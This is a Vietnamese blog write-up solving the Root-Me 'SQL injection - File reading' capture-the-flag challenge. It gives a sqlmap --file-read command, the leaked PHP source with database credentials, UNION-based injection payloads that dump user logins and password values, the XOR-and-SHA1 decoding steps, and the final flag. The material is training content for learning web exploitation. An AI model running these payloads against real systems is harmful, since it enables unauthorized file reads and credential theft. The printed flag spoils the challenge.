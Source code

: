 ```yaml
---
template: overrides/blog.html
icon: material/plus-circle
title: SQL injection - File reading
description: >
  
search:
  exclude: true
hide:
  - feedback

tags:
    - SQL Injection 
---
```


# __SQL injection - File reading__

<span>
:octicons-calendar-24: May 03, 2023

</span>

---


## __Tài nguyên và link challenge__

Tài nguyên của challenge này tại [https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-file-reading](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-file-reading)

Link challenge này tại [:octicons-arrow-right-24: http://challenge01.root-me.org/web-serveur/ch31/][http://challenge01.root-me.org/web-serveur/ch31/]

  [http://challenge01.root-me.org/web-serveur/ch31/]: http://challenge01.root-me.org/web-serveur/ch31/

## __Tổng quan__

Trong challenge này, mục tiêu của ta là lấy được password admin.

## __Kịch bản tấn công__
### Bước 1: Kiểm tra website

Challenge này cung cấp cho ta 2 website: 1 cho việc login tài khoản, 1 cho việc xem thành viên (trang Members).

### Bước 2: Khai thác website

Well, nhìn đề bài ta cào source code bằng sqlmap cho nhanh. Xem nó ra gì ::)
Dùng lệnh `python sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch31/?action=members&id=1" --file-read=/challenge/web-serveur/ch31/index.php` để xem sourcecode

<div class="result" markdown>

``` php linenums="1" hl_lines="21 39 45"
<html>
<header><title>SQL injection - FILE</title></header>
<body>
<h3><a href="?action=login">Authentication</a>&nbsp;|&nbsp;<a href="?action=members">Members</a></h3><hr />

<?php

define('SQL_HOST',      '/var/run/mysqld/mysqld3-web-serveur-ch31.sock');
define('SQL_DB',        'c_webserveur_31');
define('SQL_LOGIN',     'c_webserveur_31');
define('SQL_P',         'dOJLsrbyas3ZdrNqnhx');


function stringxor($o1, $o2) {
    $res = '';
    for($i=0;$i<strlen($o1);$i++)
        $res .= chr(ord($o1[$i]) ^ ord($o2[$i]));        
    return $res;
}

$key = "c92fcd618967933ac463feb85ba00d5a7ae52842";
 

$GLOBALS["___mysqli_ston"] = mysqli_connect('', SQL_LOGIN, SQL_P, "", 0, SQL_HOST) or exit('mysql connection error !');
mysqli_select_db($GLOBALS["___mysqli_ston"], SQL_DB) or die("Database selection error !");

if ( ! isset($_GET['action']) ) $_GET['action']="login";

if($_GET['action'] == "login"){
        print '<form METHOD="POST">
                <p><label style="display:inline-block;width:100px;">Login : </label><input type="text" name="username" /></p>
                <p><label style="display:inline-block;width:100px;">Password : </label><input type="password" name="password" /></p>
                <p><input value=submit type=submit /></p>
                </form>';

	if(isset($_POST['username'], $_POST['password']) && !empty($_POST['username']) && !empty($_POST['password']))
	{
		$user = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], strtolower($_POST['username']));
		$pass = sha1($_POST['password']);
		
		$result = mysqli_query($GLOBALS["___mysqli_ston"], "SELECT member_password FROM member WHERE member_login='".$user."'");
		if(mysqli_num_rows($result) == 1)
		{
			$data = mysqli_fetch_array($result);
			if($pass == stringxor($key, base64_decode($data['member_password']))){
                                // authentication success
                                print "<p>Authentication success !!</p>";
                                if ($user == "admin")
                                    print "<p>Yeah !!! You're admin ! Use this password to complete this challenge.</p>";
                                else 
                                    print "<p>But... you're not admin !</p>";
			}
			else{
                                // authentication failed
				print "<p>Authentication failed !</p>";
			}
		}
		else{
			print "<p>User not found !</p>";
		}
	}
}

if($_GET['action'] == "members"){
	if(isset($_GET['id']) && !empty($_GET['id']))
	{
                // secure ID variable
		$id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $_GET['id']);
		$result = mysqli_query($GLOBALS["___mysqli_ston"], "SELECT * FROM member WHERE member_id=$id") or die(mysqli_error($GLOBALS["___mysqli_ston"]));
		
		if(mysqli_num_rows($result) == 1)
		{
			$data = mysqli_fetch_array($result);
			print "ID : ".$data["member_id"]."<br />";
			print "Username : ".$data["member_login"]."<br />";
			print "Email : ".$data["member_email"]."<br />";	
		}
                else{
                        print "no result found";
                }
	}
	else{
		$result = mysqli_query($GLOBALS["___mysqli_ston"], "SELECT * FROM member");
		while ($row = mysqli_fetch_assoc($result)) {
			print "<p><a href=\"?action=members&id=".$row['member_id']."\">".$row['member_login']."</a></p>";
		}
	}
}

?>
</body>
</html>
```

</div>
Với source code trên ta nhặt được một vài thứ quan trọng:

- Đầu tiên, chúng ta có 1 biến key
- Thứ hai, password đã được mã hóa SHA1
- Cuối cùng, ta có hàm stringxor để thực hiện việc xor giá trị của key và base64_decode(password_in_db) và so sánh với SHA1(password_input).

Thế thì chúng ta nên làm gì tiếp theo đây? Đi tìm password thôi nào.

Quay lại, challenge này nhìn vào giống tựa như bài [SQL injection - Numeric](/rootme/web-server/sql-injection/sql-injection-numeric).
Đầu tiên, ta fuzz URL để tìm số cột của table và nhận được 4 cột (thông qua payload `order by 5--`)

<figure markdown>
  ![Image title](/rootme/web-server/sql-injection/images/sql-injection-file-reading-02.png#zoom)
  <figcaption>Hình ảnh mô tả kết quả tiêm payload vào URL</figcaption>
</figure>

Hoặc ta có thể kiểm tra bằng `..&id=1 union select 1,1,1,1--` 

<figure markdown>
  ![Image title](/rootme/web-server/sql-injection/images/sql-injection-file-reading-01.png#zoom)
  <figcaption>Hình ảnh mô tả kết quả tiêm payload vào URL</figcaption>
</figure>

Tiếp theo, ta sẽ xem các vị trí cột có thể khai thác bằng `-1 union select 1,2,3,4--`

<figure markdown>
  ![Image title](/rootme/web-server/sql-injection/images/sql-injection-file-reading-03.png#zoom)
  <figcaption>Hình ảnh mô tả kết quả tiêm payload vào URL</figcaption>
</figure>

Well, ta có cột 1, 2 và 4 có thể khai thác
Tiếp theo, ta sẽ tìm danh sách các bảng bằng `-1 union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema = database()--`
ta thấy có được bảng member

<figure markdown>
  ![Image title](/rootme/web-server/sql-injection/images/sql-injection-file-reading-04.png#zoom)
  <figcaption>Hình ảnh mô tả kết quả tiêm payload vào URL</figcaption>
</figure>

Roài, tiếp theo ta sẽ chọn và khai thác table member bằng `-1 union select 1,2,3,group_concat(column_name) FROM information_schema.columns WHERE table_name = 0x6d656d626572--`

<figure markdown>
  ![Image title](/rootme/web-server/sql-injection/images/sql-injection-file-reading-05.png#zoom)
  <figcaption>Hình ảnh mô tả kết quả tiêm payload vào URL</figcaption>
</figure>

Rồi, ở đây ta chỉ quan tâm đến cột member_login và member_password bằng `-1 union select 1,2,3,group_concat(member_login,member_password) from member--`

<figure markdown>
  ![Image title](/rootme/web-server/sql-injection/images/sql-injection-file-reading-06.png#zoom)
  <figcaption>Hình ảnh mô tả kết quả tiêm payload vào URL</figcaption>
</figure>

Ta nhận được một chuỗi mã hóa `VA5QA1cCVQgPXwEAXwZVVVsHBgtfUVBaV1QEAwIFVAJWAwBRC1tRVA==`. Công việc của ta là login thui nào

### Bước 3: Khai thác password

Rồi tiếp theo ta xem lại đoạn code đã khai thác từ trước, ta tiến hành giải mã password. Ta nhận được:
- password_encrypt = VA5QA1cCVQgPXwEAXwZVVVsHBgtfUVBaV1QEAwIFVAJWAwBRC1tRVA==
- key = c92fcd618967933ac463feb85ba00d5a7ae52842

Hơn nữa ta có: key xor password_encrypt = SHA1(password_input) :octicons-arrow-right-24: SHA1(password_input) = key xor password_encrypt. Rồi từ đây ta sẽ tiến hành tìm SHA1(password_input).
 
<figure markdown>
  ![Image title](/rootme/web-server/sql-injection/images/sql-injection-file-reading-07.png#zoom)
  <figcaption>Hình ảnh mô tả kết quả SHA1(password_input)</figcaption>
</figure>

Well, ta được SHA1(password_input) = `77be4fc97f77f5f48308942bb6e32aacabed9cef`. Decrypt ta được password = `superpassword`

!!! success "__Flag__"
    superpassword
